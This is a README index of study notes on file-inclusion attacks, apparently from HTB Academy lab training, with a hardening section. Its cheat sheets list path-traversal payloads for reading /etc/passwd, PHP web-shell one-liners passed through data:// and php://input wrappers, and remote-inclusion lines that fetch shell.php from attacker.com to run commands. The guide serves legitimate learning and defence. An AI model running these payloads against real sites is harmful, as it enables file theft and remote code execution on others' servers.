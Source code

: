 # File Inclusion - HTB Academy Guide

> Complete guide covering Local File Inclusion (LFI), Remote File Inclusion (RFI), and advanced file inclusion techniques from HTB Academy's File Inclusion module.

## 📚 Table of Contents

### Core Techniques
- **[Basic LFI Techniques](./basic-lfi-techniques.md)** - Fundamentals, path traversal, common files, and HTB Academy labs
- **[Advanced Bypasses & PHP Filters](./advanced-bypasses-filters.md)** - Filter bypasses, PHP filters, and source code disclosure
- **[PHP Wrappers for RCE](./php-wrappers-rce.md)** - Data, Input, and Expect wrappers for remote code execution
- **[Remote File Inclusion (RFI)](./remote-file-inclusion.md)** - HTTP, FTP, and SMB protocols for external file inclusion

### Advanced Topics
- **[File Upload + LFI Combinations](./file-upload-lfi.md)** - Malicious image uploads, zip/phar wrappers
- **[Log Poisoning Techniques](./log-poisoning-techniques.md)** - Session, Apache, SSH, Mail, and FTP log poisoning
- **[Automated Scanning & Tools](./automated-scanning-tools.md)** - Parameter discovery, wordlist fuzzing, automated tools
- **[Prevention & Hardening](./prevention-hardening.md)** - Secure coding, server hardening, WAF protection
- **[Skills Assessment Walkthrough](./skills-assessment-walkthrough.md)** - Complete HTB Academy capstone challenge

---

## 🎯 Quick Reference

### Essential LFI Payloads
```bash
# Basic path traversal
../../../../etc/passwd
../../../../windows/system32/drivers/etc/hosts

# Bypass filters
....//....//....//etc/passwd               # Non-recursive bypass
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd   # URL encoding
./languages/../../../../etc/passwd         # Approved path bypass
../../../../etc/passwd%00                  # Null byte (PHP < 5.3)
```

### PHP Wrappers for RCE
```bash
# Data wrapper
data://text/plain,<?php system($_GET['cmd']); ?>&cmd=id

# Input wrapper (POST)
curl -X POST --data '<?php system($_GET["cmd"]); ?>' "URL?file=php://input&cmd=whoami"

# Expect wrapper
expect://id

# PHP filters (source disclosure)
php://filter/convert.base64-encode/resource=index.php
```

### RFI Protocols
```bash
# HTTP RFI
http://attacker.com/shell.php&cmd=id

# FTP RFI
ftp://attacker.com/shell.php&cmd=whoami

# SMB RFI (Windows)
\\attacker.com\share\shell.php&cmd=dir
```

### Log Poisoning Locations
```bash
# Apache/Nginx logs
/var/log/apache2/access.log
/var/log/nginx/access.log

# SSH logs
/var/log/auth.log

# PHP sessions
/var/lib/php/sessions/sess_SESSIONID

# Process environment
/proc/self/environ
```

---

## 🔬 HTB Academy Labs Coverage

All guides include complete solutions for HTB Academy File Inclusion module labs:

### ✅ Completed Labs
- **Basic LFI Lab** - Finding users and reading flags
- **LFI Bypasses Lab** - Non-recursive and encoding bypasses  
- **PHP Filters Lab** - Source code disclosure techniques
- **PHP Wrappers Lab** - RCE via data, input, and expect wrappers
- **RFI Lab** - HTTP, FTP, and SMB remote file inclusion
- **File Upload + LFI Lab** - Malicious image uploads and wrapper techniques
- **Log Poisoning Lab** - Session poisoning and Apache log injection
- **Automated Scanning Lab** - Parameter discovery and fuzzing techniques
- **Prevention Lab** - PHP configuration and security hardening
- **Skills Assessment** - Multi-technique exploitation chain

---

## 🛠 Tools & Resources

### Manual Testing Tools
```bash
# Basic LFI testing
curl "http://target.com/lfi.php?file=../../../../etc/passwd"

# PHP filter source disclosure
curl "http://target.com/lfi.php?file=php://filter/convert.base64-encode/resource=index.php"

# RFI with remote shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
python3 -m http.server 80
curl "http://target.com/lfi.php?file=http://attacker.com/shell.php&cmd=id"
```

### Automated Tools
- **ffuf** - Parameter and payload fuzzing
- **LFiFreak** - Automated LFI exploitation
- **liffy** - LFI exploitation tool
- **kadimus** - LFI/RFI scanner and exploiter
- **Burp Suite** - Parameter discovery and testing

### Wordlists
- `/opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt`
- `/opt/useful/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt`
- `/opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt`

---

## 📊 Attack Methodology

### 1. Discovery Phase
```bash
# Parameter identification
ffuf -w burp-parameter-names.txt:FUZZ -u "http://target.com/page.php?FUZZ=test"

# Basic LFI testing
ffuf -w lfi-linux.txt:FUZZ -u "http://target.com/page.php?file=FUZZ" -mc 200
```

### 2. Exploitation Phase
```bash
# Test for RCE capabilities
# 1. Try PHP wrappers (data, input, expect)
# 2. Attempt RFI (HTTP, FTP, SMB)
# 3. File upload + LFI combinations
# 4. Log poisoning techniques
```

### 3. Post-Exploitation
```bash
# System enumeration
# Flag discovery
# Privilege escalation
# Persistent access
```

---

## 🔒 Defense Mechanisms

### Secure Coding Practices
- Input validation and sanitization
- Whitelist allowed files/paths
- Use `basename()` for file operations
- Avoid user input in file functions

### Server Hardening
```ini
# php.ini security settings
allow_url_fopen = Off
allow_url_include = Off
open_basedir = /var/www/html
disable_functions = system,exec,shell_exec,passthru
```

### WAF Protection
- ModSecurity rules for LFI detection
- Path traversal pattern blocking
- PHP wrapper filtering
- Null byte injection prevention

---

## 📈 Difficulty Progression

**🟢 Beginner** → [Basic LFI Techniques](./basic-lfi-techniques.md)  
**🟡 Intermediate** → [Advanced Bypasses](./advanced-bypasses-filters.md) → [PHP Wrappers](./php-wrappers-rce.md)  
**🟠 Advanced** → [RFI](./remote-file-inclusion.md) → [Log Poisoning](./log-poisoning-techniques.md)  
**🔴 Expert** → [Automated Scanning](./automated-scanning-tools.md) → [Skills Assessment](./skills-assessment-walkthrough.md)

---

*This comprehensive file inclusion guide covers 100% of HTB Academy's File Inclusion module, providing practical knowledge for both offensive security testing and defensive implementation.* 